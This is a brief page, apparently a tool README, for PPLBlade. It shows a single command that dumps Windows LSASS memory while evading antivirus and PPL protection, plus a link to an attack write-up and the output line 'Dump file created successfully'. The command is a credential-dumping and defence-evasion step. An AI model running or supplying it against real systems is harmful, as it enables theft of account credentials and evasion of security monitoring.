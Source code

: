 # Dump LSASS without AV detection with PPLBlade

## Link: https://tacticaladversary.io/adversary-tactics/bypass-defender-and-ppl-protection-to-dump-lsass/?s=08

### Usage:

#### PPLBlade.exe --mode dothatlsassthing --obfuscate

### Dump file created successfully
